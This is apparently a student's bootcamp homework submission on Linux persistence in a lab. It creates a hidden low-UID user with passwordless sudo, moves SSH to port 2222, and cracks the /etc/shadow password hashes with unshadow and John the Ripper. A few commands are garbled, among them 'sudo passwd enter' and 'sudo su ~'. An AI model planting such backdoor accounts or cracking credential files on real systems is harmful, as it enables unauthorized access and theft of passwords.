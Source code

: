 ✧･ﾟ: *✧･ﾟ:*✧･ﾟ: *✧･ﾟ:*✧･ﾟ: *✧･ﾟ:*✧･ﾟ: *✧･*✧Week 6 Homework Submission File: Advanced Bash - Owning the System･*✧･ﾟ:*✧･ﾟ: *✧･ﾟ:*✧･ﾟ: *✧･ﾟ:*✧･ﾟ: **
    
Nicole Kemp

26TH OF JAN 2022

Week 6 Homework Submission File
 
 ✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ:✧･ﾟ*✲ Notes for TAsﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ

For the user `sysd`, I made their password extremely simple to crack just to make this assignment easier to complete. A true red hat attacking a machine would choose something more difficult to crack.

ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*✲ﾟ*✧･ﾟﾟ*✧･ﾟ*✲ﾟ*✧･ﾟ✧･ﾟ*✲ﾟ*✧･ﾟ*


(ﾉ0ヮ0)ﾉ*✲ﾟ✧･ﾟ**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

2. Give your secret user a password: 
    - `sudo passwd enter`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 500 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 500 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `Sudo visudo` then `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

   -  `sudo -v` is usually used to extend your sudo password timeout, but can be used for determining whether you have any sudo privileges.
   `sudo -n true` was also a recomendation from the internet.

(ﾉ0ヮ0)ﾉ*✲ﾟ✧･ﾟ**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `port 22` 

    `port 2222`

(ﾉ0ヮ0)ﾉ*✲ﾟ✧･ﾟ**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `service ssh restart`

2. Exit the `root` account:
    - `su sysd`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su root` or `sudo su -`

(ﾉ0ヮ0)ﾉ*✲ﾟ✧･ﾟ**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su ~`
    then I ran john but I wanted it to crack and place the passwords in a text file. So I did ` unshadow /etc/passwd /etc/shadow > mypasswd.txt` . Then I made sure that `mypasswd.txt` is available to view as any user `/usr/sbin/john mypasswd.txt` John then started to print out the cracked usernames and passwords. 



❀✿＊*---*＊✿❀--❀✿＊*---*＊✿❀--❀✿＊*---*＊✿❀-❀✿＊*---*＊✿❀-❀✿＊*---*＊✿-❀✿＊*--❀✿＊*---*＊✿❀--❀✿＊*---*＊✿❀--❀✿＊*---*＊✿

(ﾉ^∇^)ﾉﾟFREEDOM!!!